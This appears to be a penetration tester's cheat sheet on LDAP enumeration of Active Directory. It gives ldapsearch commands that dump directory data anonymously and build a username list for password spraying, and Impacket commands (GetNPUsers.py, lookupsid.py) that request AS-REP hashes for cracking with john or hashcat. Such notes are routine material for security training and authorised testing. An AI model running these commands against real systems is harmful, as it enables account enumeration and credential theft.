 ```yaml
---
title: LDAP Enumeration (Port 389)
updated: 2023-07-19 03:43:18Z
created: 2023-07-19 03:43:04Z
---
```


# LDAP Enumeration Tools

**Note:** Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 

### ldapsearch

Simple authentication check:
```
$ ldapsearch -h <target_IP> -x
```
Anonymous Credential LDAP Dumping: 
```
$ ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
```
Getting DN:
```
$ ldapsearch -h <target_IP> -x -s base namingcontexts
```
- `-s` is scope: one of base, one, sub or children (search scope)

If you get DN from above command, use it in a base search (-b basedn: base dn for search)
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>"
```
You can also query the LDAP server:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" <query>
```
i.e. user enumeration:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)'
```
This will give a lot of useful information, i.e. when password was last reset, username of the account (sAMAccountName).

Filtering your query:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' <filters>
```
I.e. to query for only account names:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName
```
Or use grep to get a list of account names for password spraying:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

### Impacket

Using that username list generated from `ldapsearch`, we can use Impacket's `GetNPUsers.py` to see if we can get a user's TGT:
```
$ python3 GetNPUsers.py -dc-ip <target_IP> -request domain.local/ -userfile userlist.ldap -format john
```
or
```
$ GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
```

You can simply change the -format flag to hashcat if you want to use hashcat. 

Or try with no password:
```
$ python3 GetNPUsers.py <domain/user> -request -no-pass -dc-ip <IP>
```

Impacket `lookupsid.py`:
```
$ /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@x.x.x.x
```

### Windapsearch

Source: https://github.com/ropnop/windapsearch 
```
$ python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
```

#### References: 

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)
